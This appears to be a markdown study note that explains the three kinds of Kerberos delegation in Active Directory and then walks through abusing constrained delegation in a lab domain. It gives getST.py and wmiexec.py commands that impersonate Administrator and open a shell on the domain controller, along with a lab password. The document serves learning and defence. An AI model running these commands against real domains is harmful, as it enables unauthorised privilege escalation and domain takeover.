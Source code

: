 ### **What Is Kerberos Delegation?**

In **Active Directory**, **Kerberos Delegation** allows a service (like a web app) to **act on behalf of a user** to access resources (like a database) on another server **using that user’s credentials**.

Think of it like this:

> 🧑 User → 🌐 Web Server → 🗄️ SQL Server
> 
> 
> Kerberos Delegation allows the web server to say:
> 
> "**Hey SQL server, I’m acting on behalf of Bob. Let me access his data.**"
> 

Without delegation, only **Bob** can directly talk to the SQL server. The web server wouldn't be able to say "I’m Bob."

### 🧠 **Why Is Delegation Useful?**

Imagine a front-end app (like Outlook Web App) needs to access a backend (like Exchange or SharePoint) **as the user** to pull their emails or files. That backend will only trust the user, not the web server.

So the server needs a way to **pretend to be the user**, **securely**, and that’s where **Kerberos Delegation** helps.

## 📦 There Are 3 Types of Delegation:

### 🟥 1. **Unconstrained Delegation (Old & Dangerous)**

🧠 **What it means:**
- Web Server can act as *any* user.
- It can talk to *any* service while pretending to be that user.
- **Very risky** because if a hacker gets control of that web server, they can **impersonate anyone** in the domain.

💬 **Real-world example:**

> Imagine a receptionist can use anyone’s badge to access any room in the office.
> 

💣 **Abuse Risk:** Super high. You get TGTs and can become Domain Admin if one logs in.

### 🟨 2. **Constrained Delegation (KCD)**

🧠 **What it means:**

- Web Server can impersonate users, but **only for specific services**.
- AD admins configure: "This server can only act on behalf of users to reach the SQL Server."

💬 **Real-world example:**

> Receptionist can only use your badge to access the kitchen, not HR, IT, or Finance.
> 

✅ Safer. Can still be abused if attacker controls the web server.

### 🟩 3. **Resource-Based Constrained Delegation (RBCD)**

🧠 **What it means:**

- Instead of **giving the receptionist power**, the **kitchen itself decides** who can act on behalf of users.
- The **target service** (SQL Server) says: "Only `WebServer01` is allowed to impersonate users to me."

💬 **Real-world example:**

> The kitchen makes a list: “Only these people are allowed to bring other people's badges here.”
> 

✅ Most secure. Used in modern systems (cloud, automation).

💣 **If attacker can change this list, they can sneak in**.

## 🔐 Big Picture: Why Does It Matter in Hacking?

If you find any of these delegation settings as an attacker:

- 🟥 **Unconstrained** → Steal tickets, impersonate Domain Admin
- 🟨 **KCD** → Abuse to impersonate users to services
- 🟩 **RBCD** → Add yourself to the list → pretend to be anyone


___

# Abuse of Kerberos Constrained Delegation**?

This is an **abuse of Kerberos Constrained Delegation (KCD)** — a misconfiguration in Active Directory where a user (in this case `DARLA_WINTERS`) is **allowed to impersonate other users** to access specific services (like file sharing on the DC).

It means:

> "This user (DARLA_WINTERS) is allowed to pretend to be anyone (even Administrator) — but only when accessing a specific service (like CIFS/file share) on a specific machine (like the DC)."
> 

### 🔍 1. Check for Constrained Delegation in BloodHound

In BloodHound, if you see:

<img width="1063" height="750" alt="image" src="https://github.com/user-attachments/assets/9b046187-3e10-4527-ad8c-d9fcf143c335" />

### 2. Impersonate Administrator Using `getST.py`

```bash
getST.py -spn "cifs/haystack.thm.corp" -impersonate "Administrator" thm.corp/DARLA_WINTERS:NewPassword123@
```

- `getST.py` requests a Kerberos service ticket (ST)
- It uses `DARLA_WINTERS`’s credentials
- It **impersonates the Administrator** account
- It requests access to the **CIFS** service on the Domain Controller
- The tool generates a **Kerberos ticket** and saves it to `Administrator.ccache`

### 🕒 3. Set the Ticket to Be Used

```bash
export KRB5CCNAME=Administrator.ccache
```

- This tells your tools (like `wmiexec.py`) to **use the impersonated ticket** you just saved.
- It’s like saying: “Here’s my VIP pass, use it for the next request.”

---

### 🖥️ 4. Get a Shell on the Domain Controller as Administrator

```bash
wmiexec.py -k -no-pass Administrator@haystack.thm.corp
```

- `k`: Use Kerberos
- `no-pass`: No password needed (we’re using the Kerberos ticket!)
- You now get a shell as the **Administrator** on the Domain Controller.
